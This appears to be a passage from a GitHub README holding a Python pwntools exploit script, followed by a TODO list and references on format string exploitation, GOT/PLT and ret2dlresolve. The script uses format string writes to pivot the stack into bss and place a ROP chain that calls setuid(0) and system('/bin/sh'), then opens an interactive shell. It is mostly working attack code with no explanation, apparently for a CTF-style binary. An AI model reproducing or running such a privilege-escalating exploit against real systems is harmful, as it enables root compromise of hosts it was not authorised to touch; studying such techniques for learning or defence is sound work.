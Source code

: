 ```python


f_exit = FmtStrIso(exec_fmt_exit, offset=22, padlen=1, numbwritten=0x5f)  # auto offset+padlen (no-$)

f_exit.write(rbp_leak, bss)
f_exit.write(rbp_leak+8*1, ret)
f_exit.write(rbp_leak+8*2, exe.sym.func)
f_exit.write(rbp_leak+8*3, pop_rsp)
f_exit.write(rbp_leak+8*4, bss)

f_exit.execute_writes()

#=========================================================#
#================ setuid and system rop ==================#
#=========================================================#

rop.call('setuid', [0])
rop.raw(ret)
rop.call(libc.sym.system, [binsh])
counter = 0

exec_fmt_again(b'A'*16)

for idx, c in enumerate(rop.build()):
    f_exit.write(bss+(8*idx), c)
    counter += 1

f_exit.execute_writes()

io.interactive()
```



## TODO

- [x] Add already written stable exploit here. 
- [ ] Add explanation

## References

Format string exploitation tutorial
[Format String Exploitation (Shellphish)](https://shellphish.net/tut/formatstrings.pdf)

Pwntools documentation (ROP, fmtstr_payload, primitives)
[Pwntools Documentation](https://docs.pwntools.com/en/stable/)

PLT/GOT, relocations, late binding explained
[Dynamic Linking and the GOT/PLT](https://outflux.net/blog/archives/2014/01/27/fun-with-pltgot/)

ret2dlresolve technique (crafting fake reloc/sym/string)
[ret2dlresolve Technique (Dhaval Kapil)](https://dhavalkapil.com/blogs/ret2dl-resolve/)
